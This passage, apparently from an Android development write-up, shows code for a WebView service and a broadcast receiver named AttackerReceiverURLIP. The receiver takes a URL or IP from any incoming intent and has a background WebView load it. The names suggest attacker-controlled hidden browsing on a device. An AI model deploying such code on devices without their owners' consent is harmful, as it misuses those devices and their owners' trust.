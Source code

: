 ```

            String title = view.getTitle();
            Log.d(TAG, "Page title: " + title);
        }

        @Override
        public void onReceivedHttpError(WebView view, WebResourceRequest request, android.webkit.WebResourceResponse errorResponse) {
            super.onReceivedHttpError(view, request, errorResponse);
            Log.e(TAG, "HTTP error for URL/IP: " + request.getUrl() + " Error code: " + errorResponse.getStatusCode());
        }

        @Override
        public void onReceivedError(WebView view, int errorCode, String description, String failingUrl) {
            super.onReceivedError(view, errorCode, description, failingUrl);
            Log.e(TAG, "Error loading URL/IP: " + failingUrl + " Error code: " + errorCode + " Description: " + description);
        }
    }
}
```
The code loads a web page into a WebView and displays brief content about it.


Now I would like to mention the AttackerReceiverURLIP code.java, which receives the IP or URL of the site, then checks it for validity, and if it receives an IP without an HTTP/HTPPS header, then adds it and sends it further to WebViewService.java .

The code AttackerReceiverURLIP.java:

```
public class AttackerReceiverURLIP extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        String url = intent.getStringExtra("url");
        Log.d("UrlReceiver", "Received URL: " + url);
        if (url != null) {
            // Checking and adding a prefix, for example, if an ip is transmitted, well, a check
            if (!url.startsWith("http://") && !url.startsWith("https://")) {
                url = "https://" + url;
            }

            if (isValidUrl(url)) {
                Intent serviceIntent = new Intent(context, WebViewService.class);
                serviceIntent.putExtra("url", url);
                context.startService(serviceIntent);
            } else {
                Log.e("UrlReceiver", "Invalid URL received: " + url);
            }
        }
    }

    private boolean isValidUrl(String url) {
        return url != null && (url.startsWith("http://") || url.startsWith("https://"));
    }
}
```
Now it's worth switching to the latest client—side service - this is BackgroundWVService.java, and here, accordingly, is its code:
